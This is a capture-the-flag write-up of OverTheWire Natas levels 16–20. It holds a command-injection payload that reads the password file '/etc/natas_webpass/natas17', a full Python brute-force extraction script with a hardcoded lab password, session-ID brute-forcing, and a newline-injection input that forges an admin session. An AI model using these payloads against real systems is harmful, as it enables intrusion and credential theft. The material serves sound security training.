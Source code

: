 ```yaml
---
layout: article
key: 202003230
pageview: true
title: Natas Wargames Solutions (16-30)
tags: ctf
excerpt: My followup writeup to challenges that I solved in Natas Wargames
---
```


## Overview

These set of challenges on the Wargames are focussed on Web Application Security Testing and Scanning. Each machine stores the credentials for the next machine. **All passwords are also stored in /etc/natas_webpass/**. In this article, I cover the solutions from 16-34.

These are followup to the challenges post which I put out earlier for the challenges 1-15.





### Natas 16

This one presents us with the possibility of command injection. But there is a twist - There is a filtering on characters like ';', '|' /[;|&`\'"]/ etc. This removes the possibility of simply appending a command and getting it executed. Remember, our goal here is to read the contents of the file **/etc/natas_webpass/natas17**. 

The first clue is if we search for something like "__^He__". Note that the "^" is not in the list of illegal characters. We get all the words starting from the letters "He" like He , Hebrew etc. 

The question we should be asking is __"What if we could use the contents of the target file to perform the search? "__

Look at the expression

```bash
^$(grep -o ^A /etc/natas_webpass/natas17)
```

What this expression is doing is searching for a prefix "A", i.e checking whether the password is starting with  A, and then using the result of the inner prefix search to feed the outer "^" . If the password does start with an A, it would simply return the letter A (The matched prefix), and if it fails the grep returns null, so the command simply becomes ^null , and we search for ^ which returns all words. However we could simply add a letter , say "I" after the above expression.

```bash
^$(grep -o ^A /etc/natas_webpass/natas17)I
```

What do we get now? If the inner grep fails (the prefix guess is incorrect), the query resolves to **^I** , and if the inner query is successful, the query resolves to **^{matched prefix}I**. If we search for the letter I, the results always begin with the single personal pronoun "I".

So here we start by launching a bruteforce attack on all the characters in keyspace [a-zA-Z0-9] across the length of the password(same length for all levels). We can automate this in python with the powerful **requests** module which supports multiple http authentication types. The script is shown below. 

```python
import requests
from requests.auth import HTTPBasicAuth


#identified sample=^$(grep -o ^Wa natas16)I

user='natas16'
passw='WaIHEacj63wnNIBROHeqi3p9t0m5nhmh'
#clumsy but manageable
keyspace="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
leet = ""
for i in range(len(passw)):
    
    #if inner loop's guess is wrong then exploit will return I
    for j in range(len(keyspace)):
        expl ="^$(grep -o ^{} /etc/natas_webpass/natas17)I".format(leet+keyspace[j])
        #print(expl)
        payload= {'needle': expl, 'submit': 'Search'}
        answer=requests.get('http://natas16.natas.labs.overthewire.org/', params=payload,auth=HTTPBasicAuth(user,passw))
        str1 = answer.text
        start = str1.find('<pre>\n')+len('<pre>\n')
        end = str1.find('</pre>')
        str2=[x for x in str1[start:end].split("\n")]
        #print(str2[0])
        if str2[0]!='I':
            leet+=keyspace[j]
            print(leet)
            break
print(leet)

```

Good programming excercise to get command injection.



### Natas 17

To get the credentials of Natas18, we need to launch a blind SQL injection attack as the outputs of the SQL query are being consumed by the web server to prevent diagnosis. To achieve this , a good programming excercise is to write your own tool in python . However, I used SQLMap which performs the blind SQL injection attack and prints the password.



### Natas 18

The idea here is to login as admin, and get the web application to display the password for the next level. However, the admin does not have a brute-forcible password. The point of target here then becomes to guess the PHPSESSID of the admin. In a comment in the source code , it is mentioned that the PHPSESSID has only 640 possible values - which means we should be able to bruteforce it easily.

While you may write a python code, to solve this level, I used BurpSuite's intruder to bruteforce the cookies field. 



### Natas 19

Idea to get the solution here is very similar to the earlier level. Instead of sequential PHPSESSID , it is now a hex encoded value of this {session number}-{username}.  Here, we just bruteforce the session number again, and append it with the targeted username of admin, and then convert it to hex. This can be done by Intruder, and it allows for conversion to hex and adding a suffix to the target payload with ease to the targeted payload.



### Natas 20

To solve this challenge, we must  once again read and analyze the underlying PHP source code. We are logged in as regular user, and we must login as admin.  On reading the source code, we get to know that session is being read from a file. 

To understand better, here is the list of functions in the source code with their functions.Let’s look at each function and see what it does:

- **debug**($msg) Turns on debug if debug is a parameter in the GET request to the page.
- **print_credentials**() will print natas21 username and password if the following conditionals are satisfied: This is what we need to accomplish at the end of our excercise.
  - $_SESSION is true if there is an existing session. The array $_SESSION is not empty.
  - array_key_exists(“admin”, $_SESSION) is true if “admin” key is set in $_SESSION.
  - $_SESSION[“admin”] == 1 is true if the value associated with the key “admin” in $_SESSION is set to 1
- **myopen($path, $name)** always return true provided the path of the file exists.
- **myclose()** always returns true.
- **myread($sid)** has several parts
  - The first if(strspn….) statement check if the $sid contains characters that is within the long string of characters. If it is not, return “Invalid SID”. Otherwise, continue.
  - Then, it check to see if the path exist for the file call /mysess_$sid. For example, if $sid is abcdefg, it is checking for the file mysess_abcdefg. If the file exist, continue.
  - Here, we see that the content of the file is save in $data and the foreach loop take each new line of $data and put it in $line. Then, it takes each space separated word in each $line and put them in an array call $parts. If the first part ($parts[0]) is not an empty string, then it will use the first part as the session key and the second part ($parts[1]) as the value corresponding to that key.
- mywrite($sid, $data) also has several parts
  - The first if(strspn …) does the same check for valid $sid in myread()
  - The same $filename is created using the $sid.
  - The key is sorted in $_SESSION and the foreach loop take the pair of $key and corresponding $value and add it as a new line in $data. The $data is then write to the $filename. Note that new line is used to explode the key value pair and then written to the file. This is the entry point for our approach, **response splitting** attack. The 
- mydestroy($sid) always return true.
- mygarbage($t) always return true.
- main interface does the following:
  - session_start().
  - check name is in the $_REQUEST, if so, set the $_SESSION[“name”] to $_REQUEST[“name”]. If we input “test” as a name, it will correspond “test” as the
  - print_credentials()
  - set $name to empty string and check if “name” is in the $_SESSION, if so, set the variable $name to $_SESSION[“name”]

The key value pair is being read from the file in the $filename. The key vakye oair is being read, and the value of the "admin" must be 1. 
The question is "**Can we insert the line admin=1 by the inputs given to us?**" The trick here is to insert an extra line, and we can do so by splitting up our response. The input would be

```bash
user1%0Aadmin 1
```

This input would be split into 2 usernames when processed by the mywrite function and write the new line "admin 1" after user1. %0a injected here is the newline character. This injection can be done in the url itself. Once the injection is done, we can change the username to admin with ease and get the credentials.





